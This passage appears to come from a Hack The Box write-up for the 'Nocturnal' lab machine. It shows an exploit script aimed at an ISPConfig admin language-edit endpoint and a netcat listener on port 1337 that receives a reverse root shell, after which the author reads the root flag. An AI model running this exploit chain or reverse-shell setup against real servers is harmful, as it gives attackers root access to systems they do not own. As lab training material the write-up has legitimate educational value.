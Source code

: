 ![Pasted image 20250813180253.png](../../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250813180253.png)

Install dependencies:

```
pip install requests
pip install bs4
pip install base64
```

Now we change the **exploit.py** code to match our system and open a [Netcat](../../../3%20-%20Tags/Hacking%20Tools/Netcat.md) listener on the same port inserted, then we can execute the following command:

```bash
┌──(.venv)─(mdn0x㉿mdn0xKali)-[~/HTB/Machines/Nocturnal]
└─$ python3 exploit.py 
/home/mdn0x/HTB/Machines/Nocturnal/exploit.py:89: SyntaxWarning: invalid escape sequence '\]'
  exploit = session.post(url+"/admin/language_edit.php", data={"lang": "en", "lang_file": "en_language_edit.lng", "module": "admin", "_csrf_id": csrf_id['value'], "_csrf_key": csrf_key['value'],"records[\]": payload})
[+] Login Success
```

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Machines/Nocturnal]
└─$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.14.174] from (UNKNOWN) [10.10.11.64] 51728
bash: cannot set terminal process group (816): Inappropriate ioctl for device
bash: no job control in this shell
root@nocturnal:/usr/local/ispconfig/interface/web/admin# cd --
cd --
root@nocturnal:~# ls
ls
root.txt
scripts
root@nocturnal:~# cat roo
cat root.txt 
 HTB{{REDACTED_FLAG}}
```

Pwned !!